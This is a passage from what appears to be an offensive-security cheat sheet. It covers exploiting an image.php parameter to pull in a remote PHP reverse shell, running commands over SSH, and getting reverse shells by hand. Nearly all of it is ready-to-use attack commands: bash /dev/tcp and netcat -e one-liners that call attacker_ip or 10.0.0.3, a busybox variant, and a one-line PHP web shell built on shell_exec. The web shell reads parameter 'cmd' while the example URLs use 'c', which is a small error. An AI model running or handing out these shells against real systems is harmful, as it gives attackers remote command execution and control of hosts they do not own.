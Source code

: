 Target machine - you can either directly browse to the file from browser or run curl command to trigger it, remember to have netcat running
```
Browse to http://target_IP/image.php?img=http://attacker_IP/php-reverse-shell.php
or
curl "http://target_IP/image.php?img=http://attacker_IP/php-reverse-shell.php"
```

## SSH - Command No Terminal 
Unix commands can be run against the target through SSH without having to login first. Use this if you have ssh keys or password but for some reason you can't seem to login or get a shell.
```
ssh hacker@10.10.10.1 "whoami"
ssh hacker@10.10.10.1 "ls -alt"
```

Can get a reverse shell with the following command.
```
ssh hacker@10.10.10.1 "bash -i >& /dev/tcp/10.0.0.3/1337 0>&1"
```

## Reverse Shells - Manual
### netcat
```
# On attacker machine
nc -lvnp 1337

# On target machine - sometimes you might need to run 'which nc' to find the binary - or you can just upload nc binary from kali and run it with ./nc after chmod +x
nc attacker_ip 1337 -e /bin/bash
nc attacker_ip 1337 -e /bin/sh

# Alternate methods on target machine
sh -i >& /dev/tcp/attacker_ip/1337 0>&1
bash -i >& /dev/tcp/attacker_ip/1337 0>&1
/bin/bash -c "bash -i>& /dev/tcp/attacker_ip/1337 0>&1"
```

### busybox netcat
```
Some machines may have busybox suite of tools installed, first run a check:
dpkg --list

Next run the following command to get a shell back using busybox:
busybox nc attacker_ip 1337 -e /bin/bash

NOTE: You could also check all the busybox binaries to see what can be used for privesc with GTFOBins:
busybox --list-full 
```

### php reverse shell - one liner
```
Upload to the target via file upload or manually copy paste in GUI:
<?php echo shell_exec($_GET['cmd']);?>

On target run this for a test:
http://domain.com/shell.php?c=whoami

Now run this:
http://domain.com/shell.php?c=nc attacker_ip 1337 -e /bin/bash
```
